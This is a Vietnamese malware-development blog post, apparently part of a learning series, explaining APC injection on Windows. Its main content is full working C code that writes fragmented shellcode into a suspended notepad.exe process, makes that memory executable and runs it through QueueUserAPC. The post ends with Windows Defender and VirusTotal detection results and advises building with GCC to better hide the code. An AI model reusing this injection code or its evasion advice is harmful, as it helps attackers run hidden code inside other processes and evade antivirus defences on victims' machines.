 ## APC Injection

### Logic hoạt động
Sử dụng `QueueUserAPC` API để xếp hàng vào 1 APC, tham số và cách sử dụng của hàm này xem tại trang của microsoft: [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc).

Sau khi gọi API trên, APC function được thực thi đã được cài đặt thông qua QueueUserAPC, process cần phải được đặt trong trạng thái cảnh báo (alertable state). Điều này có thể đạt được bằng cách tạo 1 thread sau đó sử dụng các API sau:

- `Sleep`
- `SleepEx`
- `MsgWaitForMultipleObjects`
- `MsgWaitForMultipleObjectsEx`
- `WaitForSingleObject`
- `WaitForSingleObjectEx`
- `WaitForMultipleObjects`
- `WaitForMultipleObjectsEx`
- `SignalObjectAndWait`

Ngoài ra, còn 2 cách nữa đó là:

- Tạo tiến trình với trạng thái `CREATE_SUSPENDED` và sau đó sử dụng `ResumeThread`
- Tạo tiến trình với trạng thái `DEBUG_PROCESS` và sau đó sử dụng `DebugActiveProcessStop` để tiếp tục tiến trình.

### Code
Phần code khá đơn giản so với các kiểu inject khác, dưới đây là code inject vào remote process để thực thi tải trọng mở notepad.
Mã tải trọng được tạo ra đã được nhắc đến trong 1 bài viết khác của tôi: [Payload Placement](https://github.com/vuongle-vigo/MalDevAcademy-Blog/tree/main/25-12-2023%20Payload%20Placement)


```c
# include <Windows.h>
# include <stdio.h>

BOOL RunViaApcInjection(IN HANDLE hThread, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;

	pAddress = VirtualAllocEx(hProcess, NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, NULL)) {
		printf("\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CreateSuspendedProcess(IN LPCSTR lpProcessPath, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	si.cb = sizeof(STARTUPINFOA);

	if (!CreateProcessA(NULL, lpProcessPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	*dwProcessId = pi.dwProcessId;
	*hProcess = pi.hProcess;
	*hThread = pi.hThread;

	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL) {
		return TRUE;
	}

	return FALSE;
}

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
	memcpy(&sc[0], sc_0, 16);
	memcpy(&sc[16 * 1], sc_1, 16);
	memcpy(&sc[16 * 2], sc_2, 16);
	memcpy(&sc[16 * 3], sc_3, 16);
	memcpy(&sc[16 * 4], sc_4, 16);
	memcpy(&sc[16 * 5], sc_5, 16);
	memcpy(&sc[16 * 6], sc_6, 16);
	memcpy(&sc[16 * 7], sc_7, 16);
	memcpy(&sc[16 * 8], sc_8, 16);
	memcpy(&sc[16 * 9], sc_9, 16);
	memcpy(&sc[16 * 10], sc_10, 16);
	memcpy(&sc[16 * 11], sc_11, 16);
	memcpy(&sc[16 * 12], sc_12, 16);
	memcpy(&sc[16 * 13], sc_13, 16);
	memcpy(&sc[16 * 14], sc_14, 16);
	memcpy(&sc[16 * 15], sc_15, 16);
	memcpy(&sc[16 * 16], sc_16, 16);
	memcpy(&sc[16 * 17], sc_17, 16);
}

int main() {
	build_sc();

	DWORD dwProcessId;
	HANDLE hProcess, hThread;
	
	if (!CreateSuspendedProcess("C:\\Windows\\System32\\notepad.exe", &dwProcessId, &hProcess, &hThread)) {
		printf("[!] CreateSuspendedProcess Failed\n");
		return -1;
	}
	
	if (!RunViaApcInjection(hThread, hProcess, sc, sizeof(sc))) {
		printf("[!] RunViaApcInjection Failed\n");
		return -1;
	}

	ResumeThread(hThread);
	//DebugActiveProcessStop(dwProcessId);
	printf(
		"Done"
	);
}
```



### Check AV Windows 10 Defender
- VS2022: Build no debug info + MT release, bị phát hiện mã độc ngay khi build xong, và chuyển qua máy ảo mà chưa cần chạy (Virus total: 22/72)
- GCC: Với phiên bản shellcode lỗi, quá trình chạy không gây ra vấn đề gì (vấn đề nằm ở shellcode)
- GCC: Với phiên bản shellcode chuẩn, scan không bị phát hiện, chạy cũng không bị phát hiện trên máy ảo, tuy nhiên vẫn có khả năng bị phát hiện do shellcode được giải mã và có signature. (Virus total: 21/73)
 
=> Việc build bằng GCC có thể giúp tăng khả năng che dấu của mã.
